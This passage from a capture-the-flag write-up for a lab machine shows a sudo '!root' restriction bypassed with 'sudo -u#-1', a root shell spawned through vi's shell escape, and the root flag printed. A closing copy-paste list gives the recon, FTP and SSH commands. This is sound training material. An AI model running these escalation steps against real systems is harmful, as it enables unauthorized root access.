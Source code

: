 * `gwendoline` can run `/usr/bin/vi /home/gwendoline/user.txt` without a password as any target user **except root** (because of the `!root` entry).
* The interesting twist: supplying a numeric UID to `sudo` bypasses textual `!root` checks in this environment. Running `sudo -u#-1` allowed running the permitted command with effective privileges that allowed escalation:

From `gwendoline`:

```bash
sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt
```

This dropped me into `vi` running with elevated privileges. `vi` supports shell escapes, so from inside `vi` I spawned a root shell:

Inside `vi`:

```
:!bash -i
# or :!sh
# Or if needed:
:set shell=/bin/bash
:shell
```

Now I had a root shell.

---

# Root access

Once the shell was spawned from `vi`:

```bash
whoami
# => root

cat /root/root.txt
# => THM{8d6f163a87a1c80de27a4fd61aef0f3a0ecf9161}
```

Root flag obtained and box rooted.

---

# Commands used (quick copy/paste)

```bash
# Recon
nmap -sV 10.10.198.165
gobuster dir -u http://10.10.198.165 -w /usr/share/wordlists/dirb/common.txt -t 5

# Download and inspect asset
wget http://10.10.198.165/WExYY2Cv-qU/Hot_Babe.png
strings Hot_Babe.png | less

# FTP (example)
ftp 10.10.198.165
# login: ftpuser : <password-from-strings>
get "Eli's_Creds.txt"
bye

# SSH as eli
ssh eli@10.10.198.165

# As gwendoline
sudo -l

```